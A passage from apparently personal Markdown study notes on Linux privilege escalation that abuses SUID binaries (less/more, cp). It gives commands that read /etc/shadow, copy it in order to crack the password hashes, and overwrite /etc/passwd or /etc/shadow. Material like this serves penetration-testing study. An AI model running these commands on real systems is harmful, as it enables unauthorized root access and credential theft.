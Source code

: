 ![](Attachments/Pasted%20image%2020250222104135.png)

**Note :- when you are trying to save this file it will give error so for save file use *wq!***


###### 4.3 less / more 
check the permissions 
```
which less
ls -lha 
```

![](Attachments/Pasted%20image%2020250222104754.png)

using suid less /more we can read sensitive files 
```bash
less /etc/shadow 
```

![](Attachments/Pasted%20image%2020250222105244.png)



###### 4.4 cp 
check the permissions
```bash
which cp
ls -lha /usr/bin/cp
```

copy the /etc/shadow file into users home directory 
Then read file you will get password hash
then crack the password hash using password cracking tool

```bash
cp /etc/shadow /home/bob/shadow
cat /home/bob/shadow
```

When you found suid on cp binary the don't cp /etc/passwd file on /tmp location copy it into users home directory 

Or After copy /etc/passwd  or /etc/shadow file you can edit it and 
Then again using cp command replace with original file 
